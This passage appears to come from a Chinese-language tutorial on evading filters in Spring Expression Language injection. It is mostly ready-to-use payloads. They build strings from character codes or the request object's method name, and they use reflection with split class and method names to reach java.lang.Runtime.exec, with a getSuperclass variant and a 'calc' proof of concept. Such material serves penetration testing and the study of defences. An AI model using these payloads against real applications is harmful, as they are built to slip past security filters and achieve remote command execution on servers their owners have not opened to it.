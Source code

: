 `T(String).getName`返回的是`java.lang.String`，然后用 replace 替换获取想要的字符串，这种比较麻烦。

还有一种就是直接使用类似`chr`函数

```php
T(Character).toString(104)+T(Character).toString(51)+T(Character).toString(122)+T(Character).toString(104)+T(Character).toString(49)
```

## 外部对象 request

假如上下文中有 request 对象的话就也有几种方法

```php
//request.getMethod() 为 POST
#request.getMethod().substring(0,1).replace(80,104)%2b#request.getMethod().substring(0,1).replace(80,51)%2b#request.getMethod().substring(0,1).replace(80,122)%2b#request.getMethod().substring(0,1).replace(80,104)%2b#request.getMethod().substring(0,1).replace(80,49)
//request.getMethod() 为 GET
#request.getMethod().substring(0,1).replace(71,104)%2b#request.getMethod().substring(0,1).replace(71,51)%2b#request.getMethod().substring(0,1).replace(71,122)%2b#request.getMethod().substring(0,1).replace(71,104)%2b#request.getMethod().substring(0,1).replace(71,49)
//Cookie
#request.getRequestedSessionId()
```

## 反射 + 字符串拼贴

比如 Runtime 的绕过  
`T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),newString[]{"cmd","/C","calc"})`  
如果 ban 了 getClass 还可以 getSuperClass  
`''.class.getSuperclass().class.forName('java.lang.Runtime').getMethod("ex"+"ec",T(String[])).invoke(''.class.getSuperclass().class.forName('java.lang.Runtime').getMethod("getRu"+"ntime").invoke(null),'calc')`  
还有各种比如 Base64 之类的。自己试试就知道了
